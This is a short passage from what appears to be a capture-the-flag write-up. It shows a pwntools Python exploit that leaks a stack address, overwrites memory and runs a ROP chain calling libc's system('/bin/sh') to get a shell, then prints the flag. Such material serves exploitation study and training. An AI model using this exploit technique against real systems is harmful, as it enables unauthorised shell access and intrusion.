 ```python
r.recvuntil('View Message: ')
stack = u64(r.recvline()[:-1] + '\x00'*2) - 0xf0
log.success('stack : {}'.format(hex(stack)))

# Exploit
payload = fix_size_payload + 'A'*24 + p64(stack)
edit(payload)
sh = base + next(libc.search('/bin/sh\x00'))
system = base + libc.symbols['system']
pop_rdi =  base + 0x0000000000021102
payload = p64(pop_rdi) + p64(sh) + p64(system)
edit(payload)

# Return to ROP
r.recvuntil('>>')
r.sendline('6')

r.interactive()
```

FLAG: `bkp{you are a talented and ambitious hacker}`